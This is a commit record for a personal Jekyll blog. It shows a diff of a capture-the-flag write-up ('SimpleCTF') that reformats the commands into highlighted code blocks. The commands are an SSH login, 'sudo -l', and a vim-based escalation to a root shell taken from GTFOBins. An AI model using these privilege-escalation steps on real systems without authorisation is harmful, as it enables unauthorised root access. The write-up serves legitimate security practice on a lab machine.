

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-09-10-SimpleCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 2287 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-10-SimpleCTF.md

```diff
--- a/_posts/2025-09-10-SimpleCTF.md
+++ b/_posts/2025-09-10-SimpleCTF.md
@@ -123,14 +123,20 @@ Lets try this login information to access the server via ssh
 Remember that ssh is being run on port 2222 (not port 22)
 
 Logging into an ssh session as mitch on port 2222
+{% highlight bash %}
 >ssh mitch@i<p> -p 2222
+{% endhighlight bash %}
 
 We can see that the credentials are accepted
 This gives us our sixth answser
 
 >Answer: ssh
 
-Lets run - "/bin/bash" - to convert into a bash shell to make things easier
+Lets run:
+{% highlight bash %}
+"/bin/bash"
+{% endhighlight bash %}
+This will convert into a bash shell
 Immediately we are shown the user.txt file
 
 
@@ -155,7 +161,9 @@ Looking around the directories shows us another user
 We now need to escalate our privilege in order to gain to root flag
 Lets look for ways to get root
 Searching:
->:$ sudo -l
+{% highlight bash %}
+:$ sudo -l
+>{% endhighlight bash %}
 We see that VIM commands are allowed to be run as sudo
 
 *sudo pic
@@ -163,8 +171,9 @@ We see that VIM commands are allowed to be run as sudo
 Searching [FTGObins](https://gtfobins.github.io/) shows that we can use VIM to escalate our privilege:
 
 Running the commnd:
->:$ sudo vim -c ':!/bin/sh'
-
+{% highlight bash %}
+:$ sudo vim -c ':!/bin/sh'
+{% endhighlight bash %}
 We can see this command was accepted and we are now the root user
 
 This gives our our seventh answer
```
Also changed, not shown: other parts of _posts/2025-09-10-SimpleCTF.md (+1 -1 lines).
